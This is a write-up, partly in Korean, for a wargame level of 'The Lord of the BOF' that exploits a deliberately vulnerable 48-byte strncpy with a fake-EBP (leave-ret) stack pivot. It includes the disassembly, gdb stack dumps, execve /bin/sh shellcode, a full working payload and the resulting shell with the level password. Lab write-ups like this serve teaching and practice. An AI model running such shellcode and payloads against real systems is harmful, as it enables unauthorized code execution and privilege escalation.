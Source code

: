 # Level 15, Assassin -> Zombie-Assassin

### zombie_assassin.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack retbayed you!\n");
                exit(0);
        }

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

        // strncpy instead of strcpy!
        strncpy(buffer, argv[1], 48);
        printf("%s\n", buffer);
}
```

### Analysis

#### Disassembling the "zombie_assassin"

```
Dump of assembler code for function main:
0x8048440 <main>:       push   %ebp
0x8048441 <main+1>:     mov    %ebp,%esp
0x8048443 <main+3>:     sub    %esp,40
0x8048446 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804844a <main+10>:    jg     0x8048463 <main+35>
0x804844c <main+12>:    push   0x8048540
0x8048451 <main+17>:    call   0x8048354 <printf>
0x8048456 <main+22>:    add    %esp,4
0x8048459 <main+25>:    push   0
0x804845b <main+27>:    call   0x8048364 <exit>
0x8048460 <main+32>:    add    %esp,4
0x8048463 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048466 <main+38>:    add    %eax,4
0x8048469 <main+41>:    mov    %edx,DWORD PTR [%eax]
0x804846b <main+43>:    add    %edx,47
0x804846e <main+46>:    cmp    BYTE PTR [%edx],0xbf
0x8048471 <main+49>:    jne    0x8048490 <main+80>
0x8048473 <main+51>:    push   0x804854c
0x8048478 <main+56>:    call   0x8048354 <printf>
0x804847d <main+61>:    add    %esp,4
0x8048480 <main+64>:    push   0
0x8048482 <main+66>:    call   0x8048364 <exit>
0x8048487 <main+71>:    add    %esp,4
0x804848a <main+74>:    lea    %esi,[%esi]
0x8048490 <main+80>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048493 <main+83>:    add    %eax,4
0x8048496 <main+86>:    mov    %edx,DWORD PTR [%eax]
0x8048498 <main+88>:    add    %edx,47
0x804849b <main+91>:    cmp    BYTE PTR [%edx],0x40
0x804849e <main+94>:    jne    0x80484b7 <main+119>
0x80484a0 <main+96>:    push   0x8048561
0x80484a5 <main+101>:   call   0x8048354 <printf>
0x80484aa <main+106>:   add    %esp,4
0x80484ad <main+109>:   push   0
0x80484af <main+111>:   call   0x8048364 <exit>
0x80484b4 <main+116>:   add    %esp,4
0x80484b7 <main+119>:   push   48
0x80484b9 <main+121>:   mov    %eax,DWORD PTR [%ebp+12]
0x80484bc <main+124>:   add    %eax,4
0x80484bf <main+127>:   mov    %edx,DWORD PTR [%eax]
0x80484c1 <main+129>:   push   %edx
0x80484c2 <main+130>:   lea    %eax,[%ebp-40]
0x80484c5 <main+133>:   push   %eax
0x80484c6 <main+134>:   call   0x8048374 <strncpy>
0x80484cb <main+139>:   add    %esp,12
0x80484ce <main+142>:   lea    %eax,[%ebp-40]
0x80484d1 <main+145>:   push   %eax
0x80484d2 <main+146>:   push   0x804857e
0x80484d7 <main+151>:   call   0x8048354 <printf>
0x80484dc <main+156>:   add    %esp,8
0x80484df <main+159>:   leave
0x80484e0 <main+160>:   ret
```

#### Estimated Stack Structure

```sh
|  char buffer[40]      | [%ebp-40]
|  SFP                  | [%ebp]
|  RET                  | [%ebp+4]
|  ARGC                 | [%ebp+8]
|  Pointer to ARGV[0]   | [%ebp+C]
```

#### Observed Stack Structure (bp at *main+142)

```
(gdb) run `python -c "print 'A'*40"`
Starting program: /home/assassin/zombie_assassin-cp `python -c "print 'A'*40"`

Breakpoint 1, 0x80484ce in main ()
(gdb) x/100x $esp
0xbffffaa0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffab0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffac0:     0x41414141      0x41414141      0x00000000      0x00000000
0xbffffad0:     0x00000002      0xbffffb14      0xbffffb20      0x40013868
0xbffffae0:     0x00000002      0x08048390      0x00000000      0x080483b1
0xbffffaf0:     0x08048440      0x00000002      0xbffffb14      0x080482e4
0xbffffb00:     0x0804851c      0x4000ae60      0xbffffb0c      0x40013e90
0xbffffb10:     0x00000002      0xbffffc10      0xbffffc32      0x00000000
0xbffffb20:     0xbffffc5b      0xbffffc6e      0xbffffc87      0xbffffca6
0xbffffb30:     0xbffffcc8      0xbffffcd6      0xbffffe99      0xbffffeb8
0xbffffb40:     0xbffffed6      0xbffffeeb      0xbfffff0b      0xbfffff16
0xbffffb50:     0xbfffff27      0xbfffff2f      0xbfffff40      0xbfffff4a
0xbffffb60:     0xbfffff58      0xbfffff69      0xbfffff77      0xbfffff82
0xbffffb70:     0xbfffff96      0x00000000      0x00000003      0x08048034
0xbffffb80:     0x00000004      0x00000020      0x00000005      0x00000006
0xbffffb90:     0x00000006      0x00001000      0x00000007      0x40000000
0xbffffba0:     0x00000008      0x00000000      0x00000009      0x08048390
0xbffffbb0:     0x0000000b      0x00000203      0x0000000c      0x00000203
0xbffffbc0:     0x0000000d      0x00000203      0x0000000e      0x00000203
0xbffffbd0:     0x00000010      0x0fabfbff      0x0000000f      0xbffffc0b
0xbffffbe0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffbf0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffc00:     0x00000000      0x00000000      0x69000000      0x00363836
0xbffffc10:     0x6d6f682f      0x73612f65      0x73736173      0x7a2f6e69
0xbffffc20:     0x69626d6f      0x73615f65      0x73736173      0x632d6e69
```

### Exploit

#### How to pwn

Fake EBP

Return Address 위? 아래에 있는 `SFP` 값을 조작해 `eip`를 조작한다! Return Address에 `leave-ret` 명령어 주소를 넣고, SFP에 (쉘코드 주소+4) 값을 넣는다. 이렇게 되면 함수 에필로그 과정에서 신기한 일이 생긴다.

`leave` 명령어는 함수 에필로그를 간략화한 명령어서, `mov esp, ebp`와 `pop ebp`를 동시에 수행하게 된다. 그리고 `ret` 명령어는 스택 프레임 해제를 간략화한 명령어로, `pop eip`와 `jmp eip`를 수행하게 된다. `leave`를 수행하면 SFP에 저장되어 있는 값이 `ebp`로 들어가게 되며 이전 스택 프레임이 복원 되게 된다. 

이때 만약 `SFP`에 (쉘코드 주소+4) 값이 들어가게 되면 `mov esp, ebp`를 했을때 스택이 이렇게 구성된다.

```sh
|  &shellcode               |   
|  char shellcode[40]       |
|  SFP (= &(shellcode+4) )  |   <- EBP, ESP
|  RET                      |
|  ARGC                     |
|  Pointer to ARGV[0]       |
```

`pop ebp`를 수행하면 다음과 같다.

```sh
|  &shellcode               |   <- EBP
|  char shellcode[40]       |
|  SFP (= &(shellcode+4) )  |   
|  RET                      |   <- ESP
|  ARGC                     |
|  Pointer to ARGV[0]       |
```

정상적인 루틴은 이후에 `ret` 명령어를 수행해 ESP가 가르키느 값에서 Return Address값을 가져오고 점프를 하게 된다. 그러나 여기에 `leave-ret` 명령어 주소를 넣게 되면 `leave` 명령어을 한번 더 수행하게 된다. 

`mov esp, ebp`를 수행하면 조작된 EBP 값이 ESP로 들어가게 되며 EBP와 ESP가 가르키는 주소가 같아진다.

```sh
|  &shellcode               |   <- EBP, ESP
|  char shellcode[40]       |
|  SFP (= &(shellcode+4) )  |   
|  RET                      |   
|  ARGC                     |
|  Pointer to ARGV[0]       |
```

`pop ebp`를 하면 `ESP`와 `EBP`가 같이 가르키고 있는 `*(shellcode+4)`값이 들어간다. 그리고 `ESP`는 자동으로 4만큼 줄어든다. 그러면 스택은 다음과 같이 구성된다.

```sh
|  &shellcode               |   
|  char shellcode[40]       |   <- ESP
|  SFP (= &(shellcode+4) )  |   
|  RET                      |   
|  ARGC                     |
|  Pointer to ARGV[0]       |
```

이 상황에서 `ret` 명령어를 수행하게 되면 귀신같이 쉘코드로 실행흐름이 넘어오게 된다.

#### Shellcode (24 bytes)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

#### Final Payload

```
./zombie_assassin `python -c "print '\xa4\xfa\xff\xbf'+'\x90'*12+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'+'\x9c\xfa\xff\xbf'+'\xdf\x84\x04\x08'"`
```

### Result

```
[assassin@localhost assassin]$ ./zombie_assassin `python -c "print '\xa4\xfa\xff\xbf'+'\x90'*12+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'+'\x9c\xfa\xff\xbf'+'\xdf\x84\x04\x08'"`
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒ᙰ
                                   ̀▒▒▒▒߄
bash$ id
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)
bash$ my-pass
euid = 516
no place to hide
```